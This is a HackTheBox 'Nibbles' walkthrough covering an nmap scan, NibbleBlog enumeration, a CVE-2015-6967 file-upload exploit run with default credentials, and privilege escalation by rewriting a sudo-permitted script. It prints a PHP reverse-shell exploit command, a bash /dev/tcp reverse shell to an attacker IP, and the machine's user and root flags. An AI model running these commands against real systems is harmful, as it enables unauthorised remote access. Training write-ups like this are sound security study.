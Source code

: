 ![Image](/assets/Nibbles.png)

Nibbles is a very smooth box that runs close to HTB standards for easier machines... Thorough web enumeration and simple privilege escalation. Let's get it.
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:19 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.30 seconds

```

### Enumeration

This box has two connections on ports 22 and 80, running their respective services. You know how I feel about SSH, so we'll start with port 80.

##### 80 - NibbleBlog

![Image](/assets/Screenshot 2024-09-09 at 8.31.49 PM.png)

The landing page of the website doesn't give us much. However, when we take a closer look, we're given a bone. Using this newfound directory, we can feed feroxbuster (I know, no gobuster anymore) our parameters and get a lot of information.

![Image](/assets/Screenshot 2024-09-09 at 8.35.09 PM.png)

Moseying around some of these yields very valuable information, including usernames and versions. The kicker, though, comes from doing our research online.

![Image](/assets/Screenshot 2024-09-09 at 8.39.23 PM.png)

We find out about CVE-2015-6967, which allows us to upload unrestricted files to the server, and access via `content/private/plugins/my_image/image.php`. We also can find a python script built for this blog specifically, and even some credentials hanging around... (I'll take it!)

![Image](/assets/Screenshot 2024-09-09 at 8.56.20 PM.png)

### Initial Access

Downloading the script, we need to find a PHP reverse shell that we can couple with it, because the script will give us access to our payload through the server. I used: `/usr/share/laudanum/php/php-reverse-shell.php`. Once the parameters are configured with hosts and credentials, set up a wrapped listener and fire away.

`rlwrap nc -nlvp XXXX`

`exploit.py  -l http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php`

Once we have a shell, we need to stabilize it

![Image](/assets/Screenshot 2024-09-09 at 8.59.27 PM.png)

Then, we can navigate to the home directory for our flag.

`USER:2df045e9e5b920914459d4ae04491c9b`

### Privilege Escalation

Once in our shell and looking to move vertically, we can run `sudo -l` to get an idea of what we can and cannot do. As seen below, we've got access to the `monitor.sh` executable, which is great news for us.

![Image](/assets/Screenshot 2024-09-09 at 9.00.01 PM.png)

All that needs to be done is overwrite the original script with a Bash one-liner pointing to another listener that we have set up on our Kali box.

The directory is hidden behind a zip file, so unzip.

![Image](/assets/Screenshot 2024-09-09 at 9.04.05 PM.png)

Then, rewrite the script using the line below. `nano` and `vim` were being very touchy, so I just used `echo`.

```
echo -e '#!/bin/bash\n\n# Define the IP address and port of the remote listener\nREMOTE_IP="10.10.14.3" # Replace with your IP\nREMOTE_PORT="9001"        # Replace with your desired port\n\n# Ensure the script is running with root privileges\nif [[ "$EUID" -ne 0 ]]; then\n  echo "Please run this script as root."\n  exit 1\nfi\n\n# Attempt to open a reverse shell using netcat\necho "Opening a reverse shell to $REMOTE_IP:$REMOTE_PORT..."\n/bin/bash -i >& /dev/tcp/$REMOTE_IP/$REMOTE_PORT 0>&1' > monitor.sh
```

Once you've popped the root shell, `cd` to the directory and grab your flag.

`ROOT:1b7cbd064fd08f66523ddc338bf1b985`

#easy #linux #manual 


